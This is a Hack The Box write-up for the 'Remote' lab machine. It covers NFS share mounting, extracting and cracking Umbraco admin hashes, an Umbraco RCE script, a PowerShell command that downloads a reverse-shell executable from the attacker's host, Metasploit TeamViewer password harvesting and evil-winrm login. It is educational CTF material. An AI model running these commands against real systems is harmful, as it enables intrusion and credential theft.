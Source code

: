 ```yaml
---
title: Remote
date: 2020-12-24
excerpt: "'Remote' is an Easy rated box on Hack The Box. We'll be looking at Umbraco CMS, public mountable shares, shell crafting with msfvenom and using evil-winrm for login."
classes: wide
categories: "Hack The Box"
tags:
  - htb
  - umbraco
  - metasploit
  - msfvenom
  - windows
  - winpeas
  - evil-winrm
---
```



![nmap](/assets/images/htb/remote/header.png)

### Port Scanning and general enumeration (Nmap, Umbraco)
* Reading/Resources
  * [Nmap manual](https://nmap.org/book/man.html)
  * [Umbraco](https://umbraco.com/)
 
`nmap -sC -sV -oN nmap/initial -T4 10.10.10.180`

![nmap](/assets/images/htb/remote/nmap.png)

Interesting. FTP, Webserver and maybe some nfs shares we can mount?

Let's take a look at the site

![nmap](/assets/images/htb/remote/site1.png)

Looks like some sort of blog.. 'Umbraco'?

![nmap](/assets/images/htb/remote/site2.png)

![nmap](/assets/images/htb/remote/login.png)

So we've found a login form. Nice. Default creds didn't work, so we'll come back to this.

Let's see if there's anything to mount

![nmap](/assets/images/htb/remote/showmount.png)

Interesting! Let's mount it

`sudo mount -t nfs 10.10.10.180:/site_backups /path/to/where/you/want/to/save/it`

Full site backup!

Since we know the backend is **Umbraco**, we can find the version in the `Web.config` file and credentials in the `App_Data/Umbraco.sdf` file.

Version:

![nmap](/assets/images/htb/remote/version.png)

To get the credentials we can run `strings` on the `Umbraco.sdf` file, redirect it to a file and run `head` on that file

![nmap](/assets/images/htb/remote/creds.png)

So the admin password is a `SHA1` hash. Let's crack it and log in using `Admin@htb.local:cracked-password` in the forms we found earlier.

---

### Access (Umbraco RCE, msfvenom)
* Reading/Resources
  * [Umbraco RCE](https://github.com/noraj/Umbraco-RCE)
  * [msfvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)
  * [Metasploit](https://www.metasploit.com/)
  

So now that we're authenticated we have a little more room to play with things. I found this [Umbraco RCE](https://github.com/noraj/Umbraco-RCE) script that should be perfect

![nmap](/assets/images/htb/remote/rce.png)

Nice! So now we have remote code execution. Let's get a proper shell

![nmap](/assets/images/htb/remote/msvenom.png)

Stand up a simple [python http server](https://docs.python.org/3/library/http.server.html) and use the exploit to transfer our executable to the machine

`python3 exploit.py -u admin@htb.local -p password -i 'http://10.10.10.180' -c powershell.exe -a '-NoProfile -Command Invoke-WebRequest -Uri http://10.10.14.22:8000/rev.exe -OutFile C:/Users/Public/rev.exe`

Now that our shell is on the box, let's fire up a `metasploit` listener

![nmap](/assets/images/htb/remote/listener.png)

Trigger the shell and off we go

---

### Privesc (winPEAS, evil-winrm)
* Reading/Resources
  * [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
  * [evil-winrm](https://github.com/Hackplayers/evil-winrm)

Now that we're on the box, let's do some enumeration. I like [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)

Upload and run it

![nmap](/assets/images/htb/remote/peasupload.png)

![nmap](/assets/images/htb/remote/peas.png)

Interesting. Teamviewer7 also has a [metasploit module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/windows/gather/credentials/teamviewer_passwords.md). Let's see what that has for us

Background your meterpreter session and

![nmap](/assets/images/htb/remote/teamviewersearch.png)

![nmap](/assets/images/htb/remote/teamviewerpassword.png)

Could that be the **Admin** password? Let's check using [evil-winrm](https://github.com/Hackplayers/evil-winrm)

![nmap](/assets/images/htb/remote/admin.png)

![nmap](/assets/images/htb/remote/userflag.png)

![nmap](/assets/images/htb/remote/rootflag.png)
